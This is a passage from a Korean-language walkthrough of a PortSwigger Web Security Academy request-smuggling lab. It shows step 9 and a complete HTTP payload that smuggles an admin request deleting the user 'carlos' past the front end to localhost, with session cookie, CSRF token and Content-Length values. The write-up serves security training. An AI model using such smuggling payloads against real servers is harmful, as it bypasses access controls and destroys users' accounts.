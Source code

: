 ![](/images/burp-academy-hrs-21-8.png)

9. Turbo Intruder에서 유저를 삭제하는 요청을 스머글링하도록 요청을 변경한다. 다음과 같다. Content-Length 값은 직접 바디부분을 카피해서 Repeater의 Inspector등을 사용해서 길이를 확인한다. 확인해본다 스머글링 요청의 바디는 53바이트, 첫번째 요청의 바디는 159바이트였다. 

```http
POST /resources HTTP/1.1
Host: 0ace005c047a8f7493536f750072005a.web-security-academy.net
Cookie: session=ySyYZqiST7hYQjTbhymPN7FvFroZOket
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Content-Length: 159

POST /admin/delete/ HTTP/1.1
Host: localhost
Content-Type: x-www-form-urlencoded
Content-Length: 53

csrf=YfEciSEq9YIzaWiaSlkbdcfefMhf9hxR&username=carlos
```
